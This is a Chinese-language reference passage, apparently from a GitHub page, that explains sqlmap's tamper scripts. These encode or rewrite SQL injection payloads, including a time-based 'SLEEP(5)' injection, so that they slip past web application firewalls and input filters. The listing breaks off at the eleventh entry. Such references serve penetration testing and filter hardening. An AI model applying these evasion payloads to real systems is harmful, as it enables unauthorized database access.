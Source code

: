 ### sqlmap 自带的绕过脚本 --tamper详解  
```
(1) apostrophemask.py UTF-8编码 
Example: 
Input: AND '1'='1' 
Output: AND %EF%BC%871%EF%BC%87=%EF%BC%871%EF%BC%87 

(2) apostrophenullencode.py unicode编码 
Example: 
Input: AND '1'='1' 
Output: AND %00%271%00%27=%00%271%00%27 

(3) appendnullbyte.py 添加%00   
Example:  
Input: AND 1=1  
Output: AND 1=1%00  
Requirement:  
Microsoft Access  

(4) base64encode.py base64编码 
Example: 
Input: 1' AND SLEEP(5)# 
Output: MScgQU5EIFNMRUVQKDUpIw` 

(5) between.py 以”not between”替换”>“ 
Example: 
Input: 'A > B' 
Output: 'A NOT BETWEEN 0 AND B' 

(6) bluecoat.py 以随机的空白字符替代空格，以”like”替代”=“ 
Example: 
Input: SELECT id FROM users where id = 1 
Output: SELECT%09id FROM users where id LIKE 1 
Requirement: 
MySQL 5.1, SGOS 

(7) chardoubleencode.py 双重url编码 
Example: 
Input: SELECT FIELD FROM%20TABLE 
Output: %2553%2545%254c%2545%2543%2554%2520%2546%2549%2545%254c%2544%2520%2546%2552%254f%254d%2520%2554%2541%2542%254c%2545

(8) charencode.py url编码 
Example: 
Input: SELECT FIELD FROM%20TABLE 
Output: %53%45%4c%45%43%54%20%46%49%45%4c%44%20%46%52%4f%4d%20%54%41%42%4c%45

(9) charunicodeencode.py 对未进行url编码的字符进行unicode编码 
Example: 
Input: SELECT FIELD%20FROM TABLE 
Output: %u0053%u0045%u004c%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004c%u0044%u0020%u0046%u0052%u004f%u004d%u0020%u0054%u0041%u0042%u004c%u0045'
Requirement: 
ASP 
ASP.NET 

(10) equaltolike.py 以”like”替代”=“ 
Example: 
Input: SELECT FROM users WHERE id=1 
Output: SELECT FROM users WHERE id LIKE 1 

(11) halfversionedmorekeywords.py在每个关键字前添加条件注释 
Example: 
```